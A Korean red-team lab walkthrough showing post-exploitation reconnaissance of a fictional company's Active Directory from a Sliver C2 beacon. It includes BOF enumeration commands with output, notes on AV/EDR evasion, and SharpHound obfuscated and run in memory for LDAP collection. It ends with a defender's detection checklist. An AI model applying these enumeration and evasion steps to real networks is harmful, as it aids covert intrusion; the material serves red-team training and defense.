



# 3. 정보 수집

이번 섹션에서는 다음의 주제들을 다룬다:

* 호스트+네트워크 정보 수집 및 맥락 확인
* 호스트+네트워크 정보 및 맥락을 기반으로 한 후속 공격 결정
* 도메인 정보 수집
* Beacon Object Files (BOF) 사용

<figure><figcaption></figcaption></figure>

## 맥락 확인

피싱 이메일을 통해 슬리버 콜백이 일어나면 이제 본격적으로 라쿤테크의 사내망안에 있는 호스트와 소통할 수 있다. 본격적인 정보 수집에 들어가기 전에 먼저 에이전트가 어떤 맥락에서 실행되고 있는지를 확인한다. 레드팀의 경우 대상 네트워크 및 호스트에서 발생하는 트래픽에 자연스럽게 녹아들어가는 것이 중요하기 때문에 에이전트의 현 맥락을 확인하고 그에 맞는 TTP를 준비하는 것이 중요하다.

예를 들어 explorer.exe > word.exe > werfault.exe 프로세스 트리에서 실행중인 x86 에이전트 프로세스가 갑자기 www.attacker.com으로 HTTPS 트래픽을 보내 4MB 짜리 데이터를 다운 받아 notepad.exe 자식 프로세스를 만든 뒤 fork\&run을 실행한다면, 전혀 맥락에 맞지 않기에 탐지될 확률이 높을 것이다.

확인해야하는 맥락들 중 중요한 정보는 다음과 같다.

* Where am I - 호스트 이름, IP, DNS 서버, Dual/Multi-homed 여부, 등
* whoami - 유저, 소속 도메인 그룹, 소속 로컬 그룹, 등
* Integrity 레벨 - Medium or High
* Arch - x86, x64, x86\_64 여부
* 현재 프로세스의 이름, PID, 및 PPID, 부모 프로세스 등의 프로세스 트리 정보

## 호스트 정보 수집

위 정보를 가져올 기본적인 호스트 정보 수집을 진행한다.

엔드포인트의 슬리버 비컨에서 이뤄지는 모든 정보 수집 및 후속 공격은 BOF를 사용하거나 execute-assembly를 이용한다.

```
// ========== 기본 정보 ============
sliver (KIND_HORNET) > info 

          Hostname: uswkstn01
          Username: US\johndoe.smith
               UID: S-1-5-21-3171536543-709093172-2066445559-1859
               GID: S-1-5-21-3171536543-709093172-2066445559-513
               PID: 10180
                OS: windows
           Version: 10 build 22621 x86_64

// ========== 운영체제 ============
Windows 11 Enterprise, OS build number: 22621.525

// ========== Whoami ============
sliver (KIND_HORNET) > sa-whoami

UserName                SID 
====================== ====================================
US\johndoe.smith        S-1-5-21-3171536543-709093172-2066445559-1859

US\Domain Users
BUILTIN\Remote Desktop Users
Mandatory Label\Medium Mandatory Level

// ========== 프로세스 ============
sliver (TOUGH_BREADCRUMB) > c2tc-psm 10180                                                                                                                                                                                     
[*] Got output:                                                               
[I] ProcessName:   OneDrive.exe (implant process)
    ProcessID:     10180
    PPID:          4724 (Non-existent process)
    CreateTime:    12/01/2025 21:33
    SessionID:     4
    Path:          C:\Users\johndoe.smith\AppData\Local\Microsoft\OneDrive\OneDrive.exe

sliver (KIND_HORNET) > c2tc-psx

[!] Security products found: 3
    ProcessID:     2456
    Vendor:        Microsoft Corporation
    Product:       Antimalware Service Executable

// ========== 업타임 & 세션 ============ 
sliver (TOUGH_BREADCRUMB) > sa-uptime

Uptime: 6 days, 22 hours, 53 minutes, 41 seconds
Local time: 2025-01-18 21:27:19

sliver (TOUGH_BREADCRUMB) > sa-enum-local-sessions

Enumerating sessions for local system:
  - [1] (Disconnected): USWKSTN01\localuser
  - [4] RDP-Tcp#1: US\johndoe.smith
```

호스트 맥락을 정리하자면 다음과 같다:

* 현재 우리의 비컨은 US 도메인의 uswkstn01에서, US\johndoe.smith 유저의 세션에서 실행중이다.
* DLL Sideloading 이후 OneDrive.exe 프로세스에 인젝션이 된채 worker.exe로 콜백하고 있다.
* 로컬 그룹은 Remote Desktop Users외 다른 것은 보이지 않기 때문에, 현재 johndoe.smith 도메인 유저는 uswkstn01에 RDP만 가능한 권한을 갖고 있다.
* Integrity Level은 일반 유저 권한임으로 Medium이다.
* johndoe.smith 유저는 uswkstn01에 RDP한 상태이며, 거의 6일 22시간 동안 계속해서 RDP 해 있는 상태이다. 콘솔 세션이 아니고, 호스트 이름(uswkstn01)으로 미뤄봤을 때 VDI 환경일 가능성이 높다.

호스트 맥락을 기반으로 몇 가지 결정을 내릴 수 있다:

* 프로세스: OneDrive에서 클라우드플레어의 `workers.dev`로 HTTP 요청을 주고 받는 것은 수상하다. 하지만 추가 프로세스 인젝션은 작전보안상 위험하기도 하고, M365를 사용하는 회사의 경우 OneDrive.exe 프로세스가 엔드포인트 보안에서 예외처리 되어 있거나, 탐지가 느슨한 경우도 많다. 따라서 일단은 해당 프로세스에서 진행한다.
* 지속성 유지: 업타임이 6일 22시간이고, 토요일 오후 9시 27분에 RDP 세션이 아직 살아있는 것으로 보아 회사내에서 RDP 세션 강제종료 관련된 설정/GPO가 없는 것 같다. 당분간은 지속성 유지를 안해도 될 것 같다.
* Arch: x64 운영체제에 x64 프로세스기 때문에 x86, x64 걱정은 안해도 될 것 같다.
* 엔드포인트 보안: 프로세스 및 Load 된 모듈(DLL)에 EDR 관련된 정보가 없다. 기본 윈도우 디펜더만 돌아가고 있는 상황이다. 작전보안은 크게 생각 안해도 되기 때문에 후속 공격도 파워쉘 정도만 피하면 execute-assembly, BOF, 심지어는 온-디스크 페이로드 업로드도 가능할 것 같다.

## 네트워크 정보 수집

본격적인 네트워크 및 AD 도메인 정보 수집 전 호스트의 네트워크 관련 맥락을 살펴본다.

```
sliver (TOUGH_BREADCRUMB) > sa-ipconfig
[*] Got output:
{BD800945-B9A1-44D2-84BC-F928CDE1201E}
        Ethernet
        Red Hat VirtIO Ethernet Adapter
        BC-24-11-47-B3-32
        10.2.30.100


Hostname:       uswkstn01
DNS Suffix:     us.rt.local
DNS Server:     10.2.30.10

sliver (TOUGH_BREADCRUMB) > sa-routeprint
Active Routes:                                                                                                                                              
Network Destination        Netmask          Gateway       Interface  Metric     
          0.0.0.0          0.0.0.0      10.2.30.254               6      271
        10.2.30.0    255.255.255.0      10.2.30.100               6      271
      10.2.30.100  255.255.255.255      10.2.30.100               6      271
      10.2.30.255  255.255.255.255      10.2.30.100               6      271

sliver (TOUGH_BREADCRUMB) > c2tc-domaininfo

[+] DomainName:
    us.rt.local
[+] DnsForestName:
    rt.local
[+] DomainControllerName (PDC):
    \\udc01.us.rt.local
[+] DomainControllerAddress (PDC):
    \\10.2.30.10
[+] Default Domain Password Policy:
    Password history length: 24
    Maximum password age (d): 42
    Minimum password age (d): 1
    Minimum password length: 0
[+] Account Lockout Policy:
    Account lockout threshold: 0
    Account lockout duration (m): 10
    Account lockout observation window (m): 10
```

네트워크 맥락을 정리하면 다음과 같다:

* uswkstn01.us.rt.local 호스트의 IP주소는 10.2.30.100이며, 10.2.30.0/24 네트워크에 있다.
* 도메인 이름은 us.rt.local (US)고, 그 위 부모 도메인은 rt.local (RT), 도메인 컨트롤러는 udc01.us.rt.local (10.2.30.10)이다.
* 도메인 비밀번호 정책이 굉장히 취약하다. 잠금 임계치 설정값이 0이기 때문에 비밀번호 스프레잉 및 브루트포싱을 실행하는데 아무런 제약이 없다.


## 도메인 정보 수집

도메인 정보 수집을 진행할 때 가장 중요한 것은 바로 LDAP 정보를 수집하는 것이다. 무작정 BloodHound로 모든 LDAP 정보를 가져올 수도 있겠지만, 탐지될 수도 있으니 일단은 Organization Unit들을 파악하는 OU Walking을 먼저 진행한다.

```
sliver (TOUGH_BREADCRUMB) > sa-ldapsearch "(objectClass=organizationalUnit)" distinguishedName 10 10.2.30.10 DC=us,DC=rt,DC=local

[*] Filter: (objectClass=organizationalUnit)
[*] Returning specific attribute(s): distinguishedName

[*] Result count: 19 (showing max. 10)

--------------------
distinguishedName: OU=Houston,DC=us,DC=rt,DC=local
--------------------
distinguishedName: OU=SanFrancisco,DC=us,DC=rt,DC=local
--------------------
distinguishedName: OU=SuperUsers,DC=us,DC=rt,DC=local
--------------------
distinguishedName: OU=External,DC=us,DC=rt,DC=local
--------------------
distinguishedName: OU=Accounts,OU=Houston,DC=us,DC=rt,DC=local
--------------------
distinguishedName: OU=Computers,OU=Houston,DC=us,DC=rt,DC=local
--------------------
distinguishedName: OU=Servers,OU=Computers,OU=Houston,DC=us,DC=rt,DC=local
```

OU 워킹을 기반으로 라쿤테크는 다음과 같은 OU 체계를 갖췄다라는 것을 예상할 수 있다.

<figure><figcaption></figcaption></figure>

기본 OU들을 제외하고 Houston과 SanFrancisco라는 도시 별 OU를 생성하고, 그 아래에 Account, Computers, Groups, Servers 등의 OU를 추가로 둬서 관리하는 형식의 전형적인 AD 구성도다. 특이한 점이 있다면 나라가 아니라 도시 별 OU를 생성했다는 것인데, 규모가 작은 해외법인, 지사 등의 경우에는 그럴 수 있다.

OU Walking을 끝낸 뒤에는 정보를 바탕으로 더 많은 LDAP 데이터들을 가져온다. 탐지를 우회하기 위해 최대한 작은 LDAP 쿼리로 조금씩 정보를 가져와서 BOFHound 등의 툴로 블러드하운드 JSON으로 전환하는것이 좋다. 아래는 몇개 예시다:

```
# Retrieve All Schema Info
ldapsearch (schemaIDGUID=*) name,schemaidguid 0 3 "" CN=Schema,CN=Configuration,DC=windomain,DC=local

# Query domain trusts
ldapsearch (objectclass=trusteddomain) *,ntsecuritydescriptor

# Unroll a group's nested members
ldapsearch (memberOf:1.2.840.113556.1.4.1941:=CN=TargetGroup,CN=Users,DC=windomain,DC=local) *,ntsecuritydescriptor
```

하지만 bofhound를 사용하기 위한 로그나 툴(코발트스트라이크, Havoc, BRC4, Outflank C2, 등)도 없고, 라쿤테크의 보안 상황을 봤을 때 도메인컨트롤러단의 LDAP 쿼리 탐지가 없을 확률이 높기 때문에 SharpHound를 돌려도 상관 없을 것 같다. 따라서 간단한 .NET 기반의 난독화를 진행한 뒤, SharpHound를 에이전트의 메모리상에서 `inline-execute-assembly`로 실행한다.

.NET 난독화는 날이 갈수록 그 중요도를 잃고 있지만, 그래도 기본적인 AMSI/ETW 우회 및 탐지에 안걸리기 위해서는 필수적이기도 하다. 30분 정도 투자해 몇 가지 오픈소스 툴 및 수동 난독화를 진행하면 나쁘지 않은 결과를 얻어낼 수 있다.

<figure><figcaption></figcaption></figure>

위의 SharpHound 닷넷 어셈블리는 EXE 상태로 바이러스토탈에 올렸을 때 6개의 AV/EDR 솔루션들이 잡아냈다. 다행인 점은 가장 중요한 빅3(CrowdStrike, MDE, SentinelOne)이 잡아내지 않았다는 것이다. 또한, 어차피 쉘코드 상태로 메모리상에서 실행될 것이기 때문에 바이러스 토탈의 정적 분석에서 위 결과만 나와도 쓸만하다.

위험한 fork\&run 보다는 현재 슬리버 비컨 프로세스에서 바로 실행하는 `inline-execute-assembly`를 이용해 SharpHound를 실행한 뒤, LDAP 정보 수집을 한다.

```
sliver (TOUGH_BREADCRUMB) > inline-execute-assembly /root/funtimes.exe "-c DCOnly --stealth --forcesecureldap --zipfilename crashdump --zippassword test --distinguishedname DC=us,DC=rt,DC=local"

2025-01-19T10:23:08.5146955+09:00|INFORMATION|Status: 660 objects finished (+660 Infinity)/s -- Using 172 MB RAM
2025-01-19T10:23:08.5146955+09:00|INFORMATION|Enumeration finished in 00:00:00.4223998
2025-01-19T10:23:08.5459412+09:00|INFORMATION|Saving cache with stats: 20 ID to type mappings.
 0 name to SID mappings.
 0 machine sid mappings.
 8 sid to domain mappings.
 0 global catalog mappings.
2025-01-19T10:23:08.5615659+09:00|INFORMATION|SharpHound Enumeration Completed at 10:23 AM on 1/19/2025! Happy Graphing!

// 다운로드 
download 20250119085621_crashdump.zip 
```

도메인 트러스트 관계를 이용해 부모 도메인 및 다른 자식 도메인도 정보 수집을 할 수 있지만, 일단 탐지에 안걸리기 위해 현재 있는 US 도메인을 상대로 정보 수집을 진행한다.

<figure><figcaption></figcaption></figure>

위에서 살펴본 것과 같이 라쿤테크의 미국 지사는 특정 도시 및 주들을 대상으로 OU를 만들고, 그 아래에 각각 account, computers, groups 등의 OU를 넣는 형식으로 액티브 디렉토리 구조를 짰다. 장악한 JohnDoe.Smith 유저의 경우도 Distinguished Name이 `CN=JOHNDOE.SMITH,OU=ACCOUNTS,OU=HOUSTON,DC=US,DC=RT,DC=LOCAL` 로 나왔다.


## 우리 회사는

* 엔드포인트의 cmd, powershell, 및 C2 에이전트에서 일어나는 다음의 행위들을 탐지하고 방지할 수 있는가?
  * 커맨드라인 명령어를 이용한 정보 수집 행위 (whoami, ipconfig, netstat -abo, ps, 등)
  * C2 에이전트의 Fork & Run 스타일의 .NET 어셈블리를 활용한 메모리 기반의 툴 실행
  * C2 에이전트의 Beacon Object File 스타일의 툴 실행
* 도메인 컨트롤러단에서 랜덤한 엔드포인트가 "무거운" LDAP 쿼리를 날려 정보 수집하는 행위를 탐지하고 방지할 수 있는가?
* 넓은 범위의 포트 스캐닝 등을 탐지하고 방지할 수 있는가?
* 유저 행동 기반 탐지를 활용해 "일반적이지 않은" 네트워크 트래픽을 대량으로 발생시키는 엔드포인트, 서버, 및 유저를 특정하고 탐지할 수 있는가?


## 마치며&#x20;

정보 수집을 통해 현재 비컨이 어떤 맥락에서 실행중인지, 어떤 후속 공격을 진행해도 될지에 대한 인사이트를 얻었다. 또한, 도메인 정보 수집을 통해 현재 액티브 디렉토리 내의 위치와 앞으로의 대상에 대해서도 정보를 얻을 수 있었다.

이제 수집된 정보를 바탕으로 권한 상승 공격을 진행한다.
